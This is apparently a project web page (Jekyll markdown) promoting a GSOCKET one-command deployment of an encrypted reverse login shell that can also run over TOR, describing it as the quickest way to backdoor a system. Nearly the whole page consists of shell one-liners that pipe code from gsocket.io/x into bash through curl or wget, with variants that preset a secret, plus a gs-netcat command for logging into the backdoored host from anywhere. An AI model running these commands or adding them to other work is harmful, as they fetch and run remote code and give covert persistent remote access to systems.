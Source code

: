 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to backdoor a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
gs-netcat -s ExampleSecretChangeMe -i
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)")
```
  

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>




